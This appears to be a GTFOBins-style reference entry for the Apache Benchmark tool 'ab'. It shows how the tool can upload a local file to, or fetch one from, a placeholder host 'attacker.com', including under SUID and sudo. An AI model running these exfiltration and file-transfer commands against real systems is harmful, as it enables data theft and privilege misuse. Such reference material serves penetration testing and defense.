 ##functions:
  #file-upload:
     ###description: Upload local file via HTTP POST request.
      code: 
        URL=http://attacker.com/
        LFILE=file_to_send
        ab -p $LFILE $URL
  ###file-download:
    - description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
      code: 
          URL=http://attacker.com/file_to_download
          ab -v2 $URL
  ###suid:
    - description: Upload local file via HTTP POST request.
      code: 
        URL=http://attacker.com/
        LFILE=file_to_send
        ./ab -p $LFILE $URL
  ###sudo:
    - description: Upload local file via HTTP POST request.
      code: 
        URL=http://attacker.com/
        LFILE=file_to_send
        sudo ab -p $LFILE $URL
